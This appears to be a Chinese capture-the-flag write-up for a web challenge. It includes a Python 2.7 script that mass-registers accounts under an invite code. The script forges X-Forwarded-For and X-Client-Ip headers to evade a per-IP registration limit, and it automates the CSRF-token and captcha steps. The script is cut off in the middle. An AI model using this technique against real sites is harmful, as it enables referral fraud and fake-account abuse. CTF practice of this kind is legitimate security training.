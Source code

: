 base64解密得 “想获得flag,就请购买时抓包，注意添加购物车哦~”

问题是怎么得到积分呢？于是就需要邀请注册，banner上也提示了。预计要邀请100人。

这时候就需要写一个脚本了，但是需要注意的是，**注册系统中加入了反"薅羊毛"功能，限制了一个同一个ip一天只能注册三个账号，所以需要在原有注册脚本上加入ip伪造的功能。**

exp样例：    相关脚本已打包  请看ciscn-exp.zip内文件

```python 2.7
'''
run with python 2.7
this script is use to invite register user
copyright dxkite@qq.com
'''

import requests as req
import random
from WebHelper import WebHelper
import sys
from pyquery import PyQuery as PQ

class AutoRegister(WebHelper):
    def __init__ (self,ip,port,csrfname='_csrf',invite='DXkite'):
        WebHelper.__init__(self,ip,port)
        self.ip = ip
        self.port = port
        self.url = 'http://%s:%s/' % (ip, port)
        self.csrfname = csrfname
        self.invite = invite

    def _generate_header(self):
        ip = '175.%d.%d.%d' % (random.randint(0,255),random.randint(0,255),random.randint(0,255))
        self.header= {
            'User-Agent':'Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/66.0.3359.181 Safari/537.36',
            'X-Forwarded-For':ip,
            'X-Client-Ip':ip,
        }
    
    def register_user(self):
        self._generate_header();
        session = req.session();
        res=session.get(self.url+'register', headers= self.header);
        # print 'session %s' % session.cookies['__session']
        x,y = self._get_answer(res.text)
        token = self._get_token(res.text)
        password = self._generate_randstr(10)
        
        rs = session.post(url=self.url + 'register', data={
            self.csrfname: token,
            "username": self._generate_randstr(6),
            "password": password,
            "password_confirm": password,
            "mail": self._generate_randstr(5) + '@atd3.cn',
            "invite_user": self.invite,
            "captcha_x": x,
            "captcha_y": y
        },headers = self.header)
        
        try:
            dom = PQ(rs.text)
            error = dom("div.alert.alert-danger")
            error = PQ(error).text().strip()
            if len(error):
                # print "[-] Register failed."
                return False
```